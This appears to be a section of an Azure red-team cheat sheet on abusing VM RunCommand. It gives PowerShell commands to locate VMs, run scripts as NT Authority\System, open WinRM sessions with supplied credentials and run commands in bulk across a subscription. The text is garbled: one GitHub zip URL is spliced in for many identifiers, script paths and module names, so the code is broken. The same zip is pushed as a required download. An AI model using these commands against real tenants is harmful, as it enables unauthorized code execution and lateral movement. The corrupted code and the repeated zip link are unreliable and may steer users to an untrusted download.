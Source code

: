 
## Virtual Machine RunCommand

Requirements: 
* `https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip`

```powershell
# Get Public IP of VM : query the network interface
PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>

# Execute Powershell script on the VM
PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip' -Verbose

# Connect via WinRM
PS C:\Tools> $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\Tools> $creds = New-Object https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip('username', $Password)
PS C:\Tools> $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
PS C:\Tools> Enter-PSSession $sess
```

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
# List available VMs
PS C:\> Get-AzureRmVM -status | where {$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -EQ "VM running"} | select ResourceGroupName,Name
ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test

# Execute Powershell script on the VM
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
```

Against the whole subscription using https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip

```powershell
Import-module https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
Invoke-AzureRmVMBulkCMD -Script https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Verbose -output https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
```
